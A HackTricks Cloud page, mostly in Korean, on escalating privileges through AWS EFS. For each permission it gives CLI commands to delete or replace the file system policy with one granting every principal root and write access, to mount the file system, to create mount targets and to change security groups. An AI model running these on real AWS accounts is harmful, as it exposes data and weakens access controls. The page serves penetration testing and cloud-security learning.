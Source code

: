 # AWS - EFS Privesc

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

## EFS

EFS에 대한 **더 많은 정보**는 다음에서 확인하세요:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

EFS를 마운트하려면 EFS가 노출된 서브네트워크에 있어야 하며, 이에 대한 접근 권한(보안 그룹)이 필요합니다. 이러한 조건이 충족되면 기본적으로 항상 마운트할 수 있지만, IAM 정책으로 보호되는 경우 여기에서 언급된 추가 권한이 필요합니다.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

이 권한 중 하나로 공격자는 **파일 시스템 정책을 변경**하여 **접근 권한을 부여**하거나 **삭제**하여 **기본 접근**이 허용되도록 할 수 있습니다.

정책을 삭제하려면:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
변경하려면:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

이 권한을 통해 공격자는 **EFS를 마운트**할 수 있습니다. EFS를 마운트할 수 있는 모든 사용자에게 기본적으로 쓰기 권한이 부여되지 않는 경우, 그는 **읽기 접근**만 가질 것입니다.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
The extra permissions `elasticfilesystem:ClientRootAccess` and `elasticfilesystem:ClientWrite` can be used to **write** inside the filesystem after it's mounted and to **access** that file system **as root**.

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.

### `elasticfilesystem:CreateMountTarget`

공격자가 EFS의 **마운트 대상**이 존재하지 않는 **서브네트워크**에 있는 경우, 그는 이 권한으로 **자신의 서브넷에 하나를 생성**할 수 있습니다:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**잠재적 영향:** 파일 시스템에서 민감한 정보를 찾아 간접적인 권한 상승.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

공격자가 EFS가 자신의 서브네트워크에 마운트 대상을 가지고 있지만 **트래픽을 허용하는 보안 그룹이 없는** 상황을 발견하면, 그는 **선택한 보안 그룹을 수정하여 이를 변경할 수 있습니다**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**잠재적 영향:** 파일 시스템에서 민감한 정보를 찾아 간접적인 권한 상승.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
